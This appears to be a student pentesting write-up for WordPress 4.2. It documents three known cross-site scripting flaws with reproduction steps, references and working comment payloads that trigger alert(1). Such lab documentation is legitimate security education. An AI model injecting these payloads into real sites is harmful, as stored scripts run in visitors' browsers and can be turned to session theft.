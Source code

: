 # Project 7 - WordPress Pentesting

Time spent: 5 hours spent in total

> Objective: Find, analyze, recreate, and document 3 affecting an old version of WordPress

Version of WordPress Tested: 4.2

## Vulnerability 1 - Legacy Theme Preview Cross-Site Scripting (XSS)
Steps to reproduce:
1. Go to any post.
2. Paste the following as a comment:
```
<a href='/wp-admin/' title="" style="position:absolute;top:0;left:0;width:100%;height:100%;display:block;" onmouseover=alert(1)//'>Test</a>
```
3. Hover over the posted comment.
4. Alert(1) will pop up.

Type of Attack: XSS

Versions: 

[!] Title: WordPress <= 4.2.3 - Legacy Theme Preview Cross-Site Scripting (XSS)

[i] Fixed in: 4.2.4

Sources: 
- [Link 1] Reference: https://wpvulndb.com/vulnerabilities/8133
- [Link 2] Reference: https://core.trac.wordpress.org/changeset/33549
- [Link 3] Reference: https://blog.sucuri.net/2015/08/persistent-xss-vulnerability-in-wordpress-explained.html
- [Link 4] Reference: https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2015-5734

GIF: https://i.imgur.com/AWc0xbA.gif

## Vulnerability 2 - Authenticated Cross-Site Scripting (XSS)
Steps to reproduce:
1. Go to any post.
2. Paste the following as a comment:
```
http://www.example.com/wp-admin/customize.php?theme=<svg onload=alert(1)>
```
3. Alert(1) will pop up.

Type of Attack: XSS

Versions: 

[!] Title: WordPress  3.7-4.4 - Authenticated Cross-Site Scripting (XSS)

[i] Fixed in: 4.2.6

Sources: 
- [Link 1] Reference: https://wpvulndb.com/vulnerabilities/8358
- [Link 2] Reference: https://wordpress.org/news/2016/01/wordpress-4-4-1-security-and-maintenance-release/
- [Link 3] Reference: https://github.com/WordPress/WordPress/commit/7ab65139c6838910426567849c7abed723932b87
- [Link 4] Reference: https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2016-1564

GIF: https://i.imgur.com/ZmwMJau.gif


## Vulnerability 3 - Pupload Same Origin Method Execution (SOME)
Steps to reproduce:
1. Go to any post.
2. Paste the following as a comment:
```
<button onclick="fire()">Click</button>
<script>
function fire() {
 open('javascript:alert(1)');
}
</script>
```
3. Click on the button.
4. Alert(1) will pop up.

Type of Attack: XSS

Versions: 

[!] Title: WordPress <= 4.5.1 - Pupload Same Origin Method Execution (SOME)

[i] Fixed in: 4.2.8

Sources: 
- [Link 1] Reference: https://wpvulndb.com/vulnerabilities/8489
- [Link 2] Reference: https://wordpress.org/news/2016/05/wordpress-4-5-2/
- [Link 3] Reference: https://github.com/WordPress/WordPress/commit/c33e975f46a18f5ad611cf7e7c24398948cecef8
- [Link 4] Reference: https://gist.github.com/cure53/09a81530a44f6b8173f545accc9ed07e
- [Link 5] Reference: http://avlidienbrunn.com/wp_some_loader.php
- [Link 6] Reference: https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2016-4566

GIF: https://i.imgur.com/eS4AppI.gif

## Resources

- [WordPress Source Browser](https://core.trac.wordpress.org/browser/)
- [WordPress Developer Reference](https://developer.wordpress.org/reference/)

GIFs created with [LiceCap](http://www.cockos.com/licecap/).

## Notes

Describe any challenges encountered while doing the work:
Some vulnerabilities would work once in a while even when using the same exact code. 
Recording with LiceCap wasn't in focus.

## License

    Copyright [2017] [Sunny Liang]

    Licensed under the Apache License, Version 2.0 (the "License");
    you may not use this file except in compliance with the License.
    You may obtain a copy of the License at

        http://www.apache.org/licenses/LICENSE-2.0

    Unless required by applicable law or agreed to in writing, software
    distributed under the License is distributed on an "AS IS" BASIS,
    WITHOUT WARRANTIES OR CONDITIONS OF ANY KIND, either express or implied.
    See the License for the specific language governing permissions and
    limitations under the License.
